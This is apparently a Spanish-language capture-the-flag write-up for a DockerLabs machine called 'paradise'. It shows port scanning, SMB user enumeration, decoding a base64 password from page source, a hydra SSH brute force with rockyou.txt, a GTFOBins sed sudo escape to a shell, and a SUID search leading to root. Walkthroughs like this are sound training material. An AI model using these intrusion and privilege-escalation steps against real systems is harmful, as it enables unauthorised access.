 nmap: 445,80,22,139

![image](https://github.com/user-attachments/assets/3bb1be68-7619-4523-bc23-f1de1268799c)

---
hacemos un: enum4linux -a 172.17.0.2

![image](https://github.com/user-attachments/assets/b905716e-26f1-4f9f-bed5-cdb04ce17655)

Nos da dos nombres: andy y lucas

en el código fuente de la pagina de "Andy's house" hay una contraseña en base64: 

![[dockerlabs/facil/paradise/test3.png]]

> ZXN0b2VzdW5zZWNyZXRvCg==

Usamos: https://www.base64decode.org/es/

    nos da: estoesunsecreto

es un parámetro, así que dejamos la URL de la siguiente forma.

> http://172.17.0.2/estoesunsecreto/mensaje_para_lucas.txt

![[dockerlabs/facil/paradise/test4.png]]

Lanzamos un ataque de fuerza bruta ya que nos indican que la contraseña es débil:

> hydra -l lucas -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2

![[dockerlabs/facil/paradise/test5.png]]

nos da la contraseña de lucas: chocolate

entramos en el ssh con el usuario y contraseña encontrado

![[dockerlabs/facil/paradise/test6.png]]

utilizamos sudo -l

se escala con sed y lo buscamos en: https://gtfobins.github.io/gtfobins/sed/

colocamos el comando que nos dio y lo modificamos al principio: 

>sudo - u andy sed -n '1e exec sh 1>&0' /etc/hosts

![[dockerlabs/facil/paradise/test7.png]]


ahora buscamos como escalar, y buscando entre carpetas con el comando: 
> find / -perm -4000 -ls 2> /dev/null

Nos da dos ejecutables en " /usr/local/bin ", así que vamos a la ruta que nos muestra.

hay un "privileged_exec"
lo ejecutamos ya que tiene permisos de ejecución con Andy

> ./privileged_exec

![[dockerlabs/facil/paradise/test8.png]]
y somos root!
